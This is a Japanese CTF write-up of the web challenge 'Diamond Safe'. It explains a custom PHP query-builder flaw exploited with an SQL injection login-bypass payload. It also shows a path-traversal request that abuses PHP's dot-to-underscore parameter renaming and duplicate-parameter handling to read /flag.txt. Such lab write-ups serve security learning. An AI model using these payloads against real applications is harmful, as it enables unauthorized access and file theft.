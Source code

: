 # [web] Diamond Safe

問題はログインの部分とフラグをとる部分に分かれる。

構成は以下の通り  
php-fpm に flag.txt がある。  

```yml
version: '3.7'

services:
  web:
      image: nginx:latest
      restart: unless-stopped
      env_file: .env
      ports:
          - "4444:80"
      volumes:
          - ./src:/var/www/html
          - ./templates:/etc/nginx/templates
      depends_on: 
        - db
        - php-fpm
      networks:
        - phpnet


  php-fpm:
      build: ./fpm
      restart: unless-stopped
      env_file: .env
      volumes:
          - ./src:/var/www/html
          - ./files:/var/www/files
          - ./flag.txt:/flag.txt:ro
      depends_on: 
        - db
      networks:
        - phpnet


  db:
    image: mysql:5.7
    env_file: .env
    restart: unless-stopped
    networks:
        - phpnet

networks:
  phpnet:
    name: phpnet
```

## ログイン

php-fpm のコードを見ると、ログインの部分は以下のようになっている。  
sql の部分が自前で実装されている。  
`db.prepare` は 第一引数の`%s` の数が第二引数の長さが等しい時、`%s` をクォートで囲んで、引数で置換されるようになっていた。  
> その他の処理も入っている。
```php

$query = db::prepare("SELECT * FROM `users` where password=sha1(%s)", $_POST['password']);

if (isset($_POST['name'])) {
    $query = db::prepare($query . " and name=%s", $_POST['name']);
} else {
    $query = $query . " and name='default'";
}
$query = $query . " limit 1";
echo $query;

$result = db::commit($query);


```

一回目の`$_POST['password']`が`%s`を含んでいると、その次に`db.prepare` を呼ぶと再度クォートが追加されるので任意のsql文を実行することができる。  
最終的なペイロードは以下のようになる。

`password=%s&name[]=)+or+1=1;+#&name[]=aa` 


## フラグ

`download.php`を見ると以下のような部分があるので、任意のファイルを読み取ることができる
```php
$file = '/var/www/files/' . $_GET['file_name'];
if (!file_exists($file)) {
    echo "file not exist";
    redirect('vault.php');
    die();
} else {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="' . basename($file) . '"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}

```

この部分が読みだされる前に`check_url` が呼び出されている。  
hash には環境変数が含まれており、それを特定するのは困難なので、それ以外の方法を考える。  

`files` 以下にあるファイルに対するハッシュ値はわかっているので、そのハッシュを使って条件を回避する。  
ここでファイルを読みだす部分は `$_GET['file_name']` の値が使われ、ハッシュ値の確認には`$params['file_name']`が使われている。  
この差分を利用する。  処理は以下の php を参照

```php
function check_url()
{
    // fixed bypasses with arrays in get parameters
    $query  = explode('&', $_SERVER['QUERY_STRING']);
    $params = array();
    foreach ($query as $param) {
        // prevent notice on explode() if $param has no '='
        if (strpos($param, '=') === false) {
            $param += '=';
        }
        list($name, $value) = explode('=', $param, 2);
        $params[urldecode($name)] = urldecode($value);
    }

    if (!isset($params['file_name']) or !isset($params['h'])) {
        return False;
    }

    $secret = getenv('SECURE_URL_SECRET');
    $hash = md5("{$secret}|{$params['file_name']}|{$secret}");

    if ($hash === $params['h']) {
        return True;
    }
    return False;
}
```

php の仕様で `file.name` みたいなクエリパラメータを `$_GET['file_name']`でとれる。  
さらにphp は重複するクエリパラメータの最後のものを採用する。  
>ドキュメントの下のほうに書いてあった気がするがどこか忘れたので見つけ次第追記する。

よって以下のようなリクエストをするとフラグが得られる。


`download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file.name=../../../flag.txt`

`flag{lul_php_challenge_1n_2021_lul}`